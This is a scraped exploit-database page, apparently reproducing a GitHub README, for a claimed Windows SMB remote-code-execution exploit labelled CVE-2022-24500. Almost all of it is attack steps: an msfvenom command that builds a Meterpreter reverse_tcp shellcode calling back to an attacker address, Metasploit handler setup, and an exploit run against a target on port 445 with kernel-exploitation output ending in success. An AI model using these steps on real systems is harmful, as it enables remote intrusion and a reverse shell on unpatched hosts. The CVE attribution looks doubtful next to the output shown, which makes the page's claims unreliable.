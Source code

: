 ```yaml
---
title: Exploit for Vulnerability in Microsoft exploit
url: https://sploitus.com/exploit?id=0C088471-64C1-5816-8C37-9679AB0FAA11&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-04
fetch_date: 2025-10-04T12:00:32.055168
---
```


# Exploit for Vulnerability in Microsoft exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CVE-2022-24500

2023-08-03 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=0C088471-64C1-5816-8C37-9679AB0FAA11
# CVE-2022-24500 RCE Exploit

### Windows SMB Remote Code Execution Vulnerability
Vulnerability: Windows 7 - Windows 2022
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-24500

### step 1

```Bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.10.22.105 LPORT=4444 -f raw > shellcode.bin
```

### step 2
```Bash
msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.10.22.105
LHOST => 192.10.22.105
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run
```

### Exploit

CVE-2022-24500 ip port

```Bash
C:\>CVE-2022-24500.exe 192.10.22.107 445
CVE-2022-24500 SMB Remote Exploit
[+] Checking... 192.10.22.107 445
[+] 192.10.22.107 445 IsOpen
[+] found low stub at phys addr 13000!
[+] PML4 at 1ad000
[+] base of HAL heap at fffff79480000000
[+] ntoskrnl entry at fffff80645792010
[+] found PML4 self-ref entry 1eb
[+] found HalpInterruptController at fffff79480001478
[+] found HalpApicRequestInterrupt at fffff80645cb3bb0
[+] load shellcode.bin
[+] built shellcode!
[+] KUSER_SHARED_DATA PTE at fffff5fbc0000000
[+] KUSER_SHARED_DATA PTE NX bit cleared!
[+] Wrote shellcode at fffff78000000a00!
[+] Try to execute shellcode!
[+] Exploit Suceess!
```

![image](https://github.com/rkxxz/CVE-2022-24500/blob/main/CVE-2022-24500.gif)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)